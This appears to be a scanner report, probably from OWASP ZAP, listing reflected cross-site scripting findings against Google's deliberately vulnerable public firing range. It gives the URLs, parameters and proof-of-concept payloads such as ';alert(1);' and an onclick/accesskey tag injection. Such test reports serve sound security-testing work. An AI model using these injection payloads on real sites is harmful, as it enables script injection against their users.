 * URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/js_assignment%3Fq=%253Balert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `;alert(1);`
  * Evidence: `;alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/js_comment%3Fq=%2522%253Balert%25281%2529%253B%2522
  * Method: `GET`
  * Parameter: `q`
  * Attack: `";alert(1);"`
  * Evidence: `";alert(1);"`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/js_eval%3Fq=%253Balert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `;alert(1);`
  * Evidence: `;alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/js_quoted_string%3Fq=%2522%253Balert%25281%2529%253B%2522
  * Method: `GET`
  * Parameter: `q`
  * Attack: `";alert(1);"`
  * Evidence: `";alert(1);"`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/js_singlequoted_string%3Fq=%2527%253Balert%25281%2529%253B%2527
  * Method: `GET`
  * Parameter: `q`
  * Attack: `';alert(1);'`
  * Evidence: `';alert(1);'`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/js_slashquoted_string%3Fq=%253Balert%25281%2529%253B
  * Method: `GET`
  * Parameter: `q`
  * Attack: `;alert(1);`
  * Evidence: `;alert(1);`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/escape/serverside/escapeHtml/tagname%3Fq=tag+accesskey%253D%2527x%2527+onclick%253D%2527alert%25281%2529%2527+b
  * Method: `GET`
  * Parameter: `q`
  * Attack: `tag accesskey='x' onclick='alert(1)' b`
  * Evidence: `tag accesskey='x' onclick='alert(1)' b`
  * Other Info: `The accesskey attribute specifies a shortcut key to activate/focus an element. This attribute can trigger payloads for non-conventional or custom tags.`
* URL: https://public-firing-range.appspot.com/reflected/escapedparameter/js_eventhandler_quoted/DOUBLE_QUOTED_ATTRIBUTE%3Fq=%253Balert%25281%2529
  * Method: `GET`
  * Parameter: `q`
  * Attack: `;alert(1)`
  * Evidence: `;alert(1)`
  * Other Info: ``
* URL: https://public-firing-range.appspot.com/reflected/escapedparameter/js_eventhandler_singlequoted/SINGLE_QUOTED_ATTRIBUTE%3Fq=%253Balert%25281%2529
  * Method: `GET`
  * Parameter: `q`
  * Attack: `;alert(1)`
  * Evidence: `;alert(1)`
  * Other Info: ``